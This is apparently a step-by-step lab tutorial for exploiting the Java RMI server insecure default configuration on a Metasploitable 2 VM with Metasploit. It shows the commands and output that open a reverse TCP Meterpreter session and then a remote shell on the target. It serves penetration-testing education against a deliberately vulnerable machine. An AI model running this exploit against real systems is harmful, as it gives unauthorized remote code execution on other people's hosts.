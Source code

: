 # Java RMI Server Insecure Default Configuration RCE Vulnerability

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search java_rmi`

```
Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  auxiliary/gather/java_rmi_registry                               normal     No     Java RMI Registry Interfaces Enumeration
   1  exploit/multi/misc/java_rmi_server              2011-10-15       excellent  Yes    Java RMI Server Insecure Default Configuration Java Code Execution
   2  auxiliary/scanner/misc/java_rmi_server          2011-10-15       normal     No     Java RMI Server Insecure Endpoint Code Execution Scanner
   3  exploit/multi/browser/java_rmi_connection_impl  2010-03-31       excellent  No     Java RMIConnectionImpl Deserialization Privilege Escalationhelp
```

### 3. Use the module

`use exploit/multi/misc/java_rmi_server`

### 4. Check the module options

`options`

```
Module options (exploit/multi/misc/java_rmi_server):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               yes       Time that the HTTP Server will wait for the payload request
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      1099             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)

Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Run the exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] 192.168.8.142:1099 - Using URL: http://192.168.8.147:8080/UU6tSf5LVRd
[*] 192.168.8.142:1099 - Server started.
[*] 192.168.8.142:1099 - Sending RMI Header...
[*] 192.168.8.142:1099 - Sending RMI Call...
[*] 192.168.8.142:1099 - Replied to request for payload JAR
[*] Sending stage (58829 bytes) to 192.168.8.142
[*] Meterpreter session 3 opened (192.168.8.147:4444 -> 192.168.8.142:47995) at 2023-03-28 10:05:18 -0400

meterpreter >
```

### 7. Meterpreter session

Now you have a **meterpreter** session opened. This session will allow you to interact with the target.

```
meterpreter >
```

Look at the meterpreter help and check the possibilities.

`help`

```
Core Commands
=============

    Command       Description
    -------       -----------
    ?             Help menu
    background    Backgrounds the current session
    bg            Alias for background
    bgkill        Kills a background meterpreter script
    bglist        Lists running background scripts
    bgrun         Executes a meterpreter script as a background thread
    channel       Displays information or control active channels
    close         Closes a channel
    detach        Detach the meterpreter session (for http/https)
    disable_unic  Disables encoding of unicode strings
    ode_encoding
    enable_unico  Enables encoding of unicode strings
    de_encoding
    exit          Terminate the meterpreter session
    get_timeouts  Get the current session timeout values
    guid          Get the session GUID
    help          Help menu
    info          Displays information about a Post module
    irb           Open an interactive Ruby shell on the current session
    load          Load one or more meterpreter extensions
    machine_id    Get the MSF ID of the machine attached to the session
    pry           Open the Pry debugger on the current session
    quit          Terminate the meterpreter session
    read          Reads data from a channel
    resource      Run the commands stored in a file
    run           Executes a meterpreter script or Post module
    secure        (Re)Negotiate TLV packet encryption on the session
    sessions      Quickly switch to another session
    set_timeouts  Set the current session timeout values
    sleep         Force Meterpreter to go quiet, then re-establish session
    transport     Manage the transport mechanisms
    use           Deprecated alias for "load"
    uuid          Get the UUID for the current session
    write         Writes data to a channel
```

### 8. Open a shell on the target machine

`shell`

```
meterpreter > shell
Process 1 created.
Channel 1 created.
```

# Video

Video that resumes everything on this laboratory.

![](assets/javaRMI.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.